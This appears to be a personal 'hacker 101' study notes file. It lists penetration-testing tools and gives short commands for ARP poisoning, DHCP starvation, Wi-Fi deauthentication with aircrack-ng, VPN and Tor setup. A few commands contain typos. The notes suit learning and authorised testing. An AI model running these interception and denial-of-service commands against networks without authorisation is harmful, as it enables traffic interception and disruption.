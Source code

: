 hacker 101
https://www.guru99.com/top-5-penetration-testing-tools.html

- `red` team
- `blue` team
  - External
  - Internal
  - Wireless
  - Physical
- Web Apps
  - bug bounty
- Active Directory
- Malware
- SOC
- OWASP Top 10
- `purple` team
  - teaching
    - https://www.thecybermentor.com/   
      - https://www.thecybermentor.com/zero-to-hero-pentesting

# top tools
nmap nse scripts
https://www.rapid7.com/products/nexpose/download/
https://dradisframework.com/ce
https://www.metasploit.com/OWASP ZAP
https://github.com/zaproxy/zaproxy/wiki
https://github.com/sqlmapproject/sqlmap
http://beefproject.com
https://github.com/antirez/hping
https://ettercap.github.io/ettercap/downloads.html
https://www.snort.org/downloads
https://portswigger.net/burp
https://www.aircrack-ng.org/



# whois
--------
geoip-bin
geoiplookup $ip

# arp poisoning
# ip forwarding on
# keeps telling target that the your host is the gw. 
echo 1 > /proc/sys/net/ipv4/ip_forward

ip route # get ip of router =$routerip
arpspoof -i eth0 -t $targetip -$routerip 
#use wireshark ip.addr == $targetip

# dhcp starvation = DoS
net-dhcp-leases default
dhcpstarv -i eth0
yersinia 

# wireless hacking
https://www.aircrack-ng.org/
wifi Monitoring mode? 
airmon-ng start $wifiadapter # from ifconfig
airodump-ng $newinterfacename
airodump-ng -c $ch --bssid $MAC -w capture $newinterfacename
airreplay-ng --deauth 0 -a -$MACap -c $MAC

# REGULATION
Cmputer Fraud and Abuse Act ~us gov

# raspian for IOT
10.0.0.0.25
sudo raspi-config
ifconfig ~ get your ip
ip addr show 
sudo apt-get xrdp
sudo apt install nmap
systemctl show -p SubState --value xrdp
sudo apt update
sudo apt dist-upgrade
sudo apt clean
sudo reboot

# vpn
sudo apt install openvpn vim  open-rsa
cd ~/openvpn-ca 
vim vars
source vars
./clean-all
./build-ca
./build-key-server $Name
./build-dh
./build-key $ClientName

# tor
systemctl status tor
# # links
the hidden wiki
## tools
proxychains
torify
proxychains firefox
#tor proxy
sudo apt-get install tor
chromium-browser --proxy-server=socks5://localhost:9050
curl 'https://api.ipify.org'
torify curl 'https://api.ipify.org'

# notes
smtp, expn